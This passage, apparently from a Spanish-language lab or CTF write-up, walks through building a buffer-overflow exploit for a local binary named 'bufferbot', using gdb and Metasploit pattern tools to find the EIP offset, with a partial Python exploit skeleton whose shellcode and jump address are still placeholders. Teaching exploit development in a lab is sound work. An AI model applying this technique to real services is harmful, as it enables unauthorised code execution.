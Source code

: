 ```python
shellcode = ?

payload = junk + jmp_esp + b"\x90"*32 + shellcode + b"\n"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(payload) 
data = ''
data = s.recv(1024).decode()
print(data)
```

Tenemos varias cosas definidas y además lo que necesitamos saber, ya que necesitamos unos datos antes de hacer el exploit, como el offset (la cantidad de basura que tenemos que poner antes de llegar al EIP), la dirección del gadget  `jmp_esp`, y un shellcode (el cual generaremos con `msfvenom`).

### Obtener el offset

Para obtener el offset, utilizaremos la herramienta `pattern_create.rb` y `pattern_offset.rb` de metasploit. La primera nos genera una cadena, la cual al enviarla y ver los resultados podremos pasarla a `pattern_offset.rb` y nos dirá el offset del binario:

Primero ejecutamos `gdb` y le pasamos el binario:

```css
gdb -q ./bufferbot
```

luego ejecutamos `pattern_create.rb` de la siguiente manera:

```css
pattern_create.rb -l 1400 | nc 127.0.0.1 9000
```

una vez lo enviemos, podremos ver en `gdb` que el programa ha crasheado, y en el registro EIP se encuentra lo siguiente:

```css
EIP  0x36734235 ('5Bs6')
```

con "5Bs6" lo pasamos a `pattern_offset.rb` y nos dirá el offset:

```css
❯ pattern_offset.rb -q 5Bs6
[*] Exact match at offset 1337
❯ 
```

perfecto, ya podemos actualizar el exploit:

```python
import socket



host = '127.0.0.1'
port = 9000
offset = 1337

junk = b"A"*offset

jmp_esp = ?


shellcode = ?

payload = junk + jmp_esp + b"\x90"*32 + shellcode + b"\n"

```